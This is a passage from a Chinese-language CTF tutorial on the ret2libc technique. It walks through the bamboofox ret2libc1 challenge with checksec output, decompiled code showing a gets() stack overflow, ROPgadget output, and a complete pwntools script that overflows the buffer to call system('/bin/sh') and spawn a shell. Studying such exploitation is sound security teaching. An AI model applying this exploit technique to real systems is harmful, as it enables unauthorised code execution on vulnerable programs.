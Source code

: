 ret2libc 即控制函數的執行 libc 中的函數，通常是返回至某個函數的 plt 處或者函數的具體位置(即函數對應的 got表項的內容)。一般情況下，我們會選擇執行 system("/bin/sh")，故而此時我們需要知道 system 函數的地址。

### 例子

我們由簡單到難分別給出三個例子。

#### 例1

這裏我們以 bamboofox 中 ret2libc1 爲例。 

> 點擊下載: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

首先，我們檢查一下程序的安全保護：

```shell
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序爲 32 位，開啓了 NX 保護。下面對程序進行反編譯以確定漏洞位置：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在執行 gets 函數的時候出現了棧溢出。此外，利用 ropgadget，我們可以查看是否有 /bin/sh 存在：

```shell
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

確實存在，再次查找一下是否有 system 函數存在。經在 ida 中查找，確實也存在。

```asm
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那麼，我們直接返回該處，即執行 system 函數。相應的 payload 如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat([b'a' * 112, system_plt, b'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
